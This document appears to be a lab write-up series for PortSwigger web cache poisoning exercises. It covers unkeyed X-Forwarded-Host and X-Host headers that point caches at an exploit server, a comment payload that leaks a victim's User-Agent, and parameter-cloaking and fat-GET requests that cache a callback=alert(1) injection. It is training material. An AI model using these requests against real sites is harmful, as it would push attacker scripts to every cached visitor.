01 Web cache poisoning with an unkeyed header
=============================================

This lab is vulnerable to web cache poisoning because it handles input from an
unkeyed header in an unsafe way. An unsuspecting user regularly visits the
site's home page. To solve this lab, poison the cache with a response that
executes alert(document.cookie) in the visitor's browser.

Hint: This lab supports the X-Forwarded-Host header.

References:

-   https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws



There is a reference to the file /resources/js/tracking.js in the home page:



It contains this code:



I will create a similar one in the exploit server with the payload we want:



Then I will send the exploit server url in the X-Forwarded-Host header to the
home page:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET / HTTP/2
...
X-Forwarded-Host: exploit-0a26003703122ceb80d4074501290007.exploit-server.net
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



When accessing the home page we get the alert pop up:



03 Web cache poisoning with multiple headers
============================================

This lab contains a web cache poisoning vulnerability that is only exploitable
when you use multiple headers to craft a malicious request. A user visits the
home page roughly once a minute. To solve this lab, poison the cache with a
response that executes alert(document.cookie) in the visitor's browser.

Hint: This lab supports both the X-Forwarded-Host and X-Forwarded-Scheme
headers.

References:

-   https://portswigger.net/web-security/web-cache-poisoning

-   https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws





Generated link:
https://0ae800d80308055d8643c5240076001f.web-security-academy.net/

Using Parm Miner we identify an unlinked parameter:



It seems there is a problem with jpg extension:



If we add this header to our request and send it many times, it ends up
generating a 302 redirection return code:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
X-Forwarded-Scheme: http
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



If we use both headers X-Forwarded-Host and we find X-Forwarded-Scheme, we find
the location becomes https://127.0.0.1/PATH:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
X-Forwarded-Host: 127.0.0.1
X-Forwarded-Scheme: http
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



If we change 127.0.0.1 for the exploit server domain name:



We get a redirection after some requests:



And the response to the redirection contains whatever we host in /bbbbbb in the
exploit server:



There are two imported Javascript scripts in the page:



To solve this we must host a file in that path in the exploit server:



First the request will have the normal response:



This is the default file:



After hitting the cache limit there is a redirection:



This redirection takes to the exploit server hosted file:



There is an alert message if accessing the page:



04 Targeted web cache poisoning using an unknown header
=======================================================

This lab is vulnerable to web cache poisoning. A victim user will view any
comments that you post. To solve this lab, you need to poison the cache with a
response that executes alert(document.cookie) in the visitor's browser. However,
you also need to make sure that the response is served to the specific subset of
users to which the intended victim belongs.

References:

-   https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws



We get the “Vary” header in the response to “/post/comment?postId=2”:



There are 4 imported scripts, the only one containing the full url is
tracking.js:





We will launch Param Miner as X-Forwarded-Host and X-Forwarded-Scheme headers do
not seem to work:



It detects two secret headers, Origin and X-Host:





If we send these headers with the exploit server hostname, we see the hostname
gets reflected (the one working is X-Host):



We will create the Javascript payload in the exploit server:



Then send the request to Intruder and use the list of User-Agents:





However this approach provokes the server to go down:



We will create a comment with this payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
< src="https://exploit-0acc00f704141c10817b1b2e011000d5.exploit-server.net/foo" />
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We get the User-Agent “Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like
Gecko) Chrome/113.0.0.0 Safari/537.36”:



And finally:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET / HTTP/1.1
...
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
X-Host: exploit-0acc00f704141c10817b1b2e011000d5.exploit-server.net
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



07 Parameter cloaking
=====================

This lab is vulnerable to web cache poisoning because it excludes a certain
parameter from the cache key. There is also inconsistent parameter parsing
between the cache and the back-end. A user regularly visits this site's home
page using Chrome.

To solve the lab, use the parameter cloaking technique to poison the cache with
a response that executes alert(1) in the victim's browser.

Hint: The website excludes a certain UTM analytics parameter

References:

-   https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws





We can find the “Origin” header can work as oracle and random query parameters
are keyed:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /?test=ing123 HTTP/2
...
Pragma: x-get-cache-key
Accept-Encoding: gzip, deflate, cachebuster
Accept: */*, text/cachebuster
Cookie: cachebuster=1
Origin: https://cachebuster.0afc006103e7279e80ff71c000b0005c.web-security-academy.net
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



We will try to guess GET parameters with Param Miner:



It detects the same parameter as the previous lab, “utm_content”, and the
Parameter Cloaking problem:





The parameter value is reflected in the response and is not part of the
“X-Cache-Key” response header:



Hoerver we can not execute an alert(1) payload as earlier because the parameter
value gets HTML-encoded:



With a payload we see how the cookie is set to “TEST456”, so there is parameter
cloaking:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /?utm_content=TEST123;utm_content=TEST456 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



There is a callback using the cookie to set the country:



We can access this script with the parameter “callback” -
https://0aeb0036048afd8e80b649b70032005e.web-security-academy.net/js/geolocate.js?callback=alert(1):



We will poison the request “/js/geolocate.js?callback=setCountryCookie”, which
is an endpoint requested from the home page. For that first with the payload and
the “Origin” header:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /?keyed_param=abc&excluded_param=123;keyed_param=bad-stuff-here
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1) HTTP/2
...
Pragma: x-get-cache-key
Origin: https://cachebuster.0afc006103e7279e80ff71c000b0005c.web-security-academy.net
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



The keyed part was “/js/geolocate.js?callback=setCountryCookie” but the last
value for “callback” was “alert(1)” so it got poisoned:



Then accessing “/”, we do not see the alert(1) but we see the poisoned request:



Then the request is poisoned without the “Origin” header:



And then access “/”:



08 Web cache poisoning via a fat GET request
============================================

This lab is vulnerable to web cache poisoning. It accepts GET requests that have
a body, but does not include the body in the cache key. A user regularly visits
this site's home page using Chrome.

To solve the lab, poison the cache with a response that executes alert(1) in the
victim's browser.

References:

-   https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws



We can find the “Origin” header can work as oracle and random query parameters
are keyed:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /?test=ing123 HTTP/2
...
Pragma: x-get-cache-key
Accept-Encoding: gzip, deflate, cachebuster
Accept: */*, text/cachebuster
Cookie: cachebuster=1
Origin: https://cachebuster.0afc006103e7279e80ff71c000b0005c.web-security-academy.net
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Just like the previous lab, we find a request to
“/js/geolocate.js?callback=setCountryCookie” from the home page:



First we will send the payload with the “Origin” header. We have to add the
“X-Http-Method-Override” header so the “alert(1)” gets cached:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /js/geolocate.js?callback=setCountryCookie HTTP/2
...
Origin: https://cachebuster.0afc006103e7279e80ff71c000b0005c.web-security-academy.net
X-Http-Method-Override: POST
Content-Length: 17

callback=alert(1)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Then we check with the “Origin” header and a regular GET request:



Then we poison the endpoint without the “Origin” header:



And check with a regular GET request without the “Origin” header:



Then access “/” and the request to this endpoint generates the alert message:


